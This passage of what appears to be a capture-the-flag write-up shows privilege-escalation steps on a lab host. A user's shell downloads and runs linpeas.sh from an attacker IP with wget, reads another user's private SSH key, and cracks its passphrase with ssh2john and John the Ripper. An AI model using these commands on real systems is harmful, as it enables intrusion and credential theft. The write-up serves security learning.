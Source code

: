 ```
jan@basic2:/home$ cd /tmp
jan@basic2:/tmp$ wget http://10.9.203.24:8000/linpeas.sh
--2024-05-23 08:07:18--  http://10.9.203.24:8000/linpeas.sh
Connecting to 10.9.203.24:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 134168 (131K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh              100%[==============================>] 131.02K   104KB/s    in 1.3s

2024-05-23 08:07:20 (104 KB/s) - ‘linpeas.sh’ saved [134168/134168]

jan@basic2:/tmp$ chmod +x linpeas.sh
```

```
jan@basic2:/tmp$ ./linpeas.sh
~
~
~
Private SSH keys found!:
/home/kay/.ssh/id_rsa
~
~
~
```

Linpeas found an interesting file in `/home/kay/.ssh/id_rsa`. That file can be used for connected to ssh with private key.

```
jan@basic2:~$ cat /home/kay/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6ABA7DE35CDB65070B92C1F760E2FE75
~
~
~
-----END RSA PRIVATE KEY-----
```

We tried to crack a private key file to find a passphrase using `ssh2john`.

```
riz@kali:~$ ssh2john id_rsa > id_rsa.hash

riz@kali:~$ john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)
1g 0:00:00:00 DONE (2024-05-22 21:47) 50.00g/s 4137Kp/s 4137Kc/s 4137KC/s bolabola..bammer
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
